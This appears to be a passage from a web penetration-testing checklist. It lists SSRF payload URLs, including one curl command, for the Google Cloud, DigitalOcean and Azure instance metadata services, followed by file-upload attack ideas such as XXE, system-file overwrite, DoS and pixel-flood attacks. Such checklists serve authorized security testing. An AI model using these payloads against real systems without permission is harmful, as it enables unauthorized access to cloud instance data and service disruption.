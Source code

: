 ### Google Cloud

```
<http://169.254.169.254/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/>
<http://metadata/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/instance/hostname>
<http://metadata.google.internal/computeMetadata/v1/instance/id>
<http://metadata.google.internal/computeMetadata/v1/project/project-id>

```

### Digital Ocean

```
curl <http://169.254.169.254/metadata/v1/id>
<http://169.254.169.254/metadata/v1.json>
<http://169.254.169.254/metadata/v1/>
<http://169.254.169.254/metadata/v1/id>
<http://169.254.169.254/metadata/v1/user-data>
<http://169.254.169.254/metadata/v1/hostname>
<http://169.254.169.254/metadata/v1/region>
<http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>

```

### Microsoft Azure

```
<http://169.254.169.254/metadata/v1/maintenance>
<http://169.254.169.254/metadata/instance?api-version=2017-04-02>
<http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&f>
ormat=text

```

- [ ]  Bypassing via Open redirect

# File Upload

- [ ]  Upload the malicious file to the archive upload functionality and observe how the application responds
- [ ]  if application supports pdf, DOCX files then test for XXE
- [ ]  Upload a file and change its path to overwrite an existing system file
- [ ]  large file DOS
- [ ]  Metadata leakage
- [ ]  ImageMagic Library attacks
- [ ]  Pixel Flood attack

## Bypass
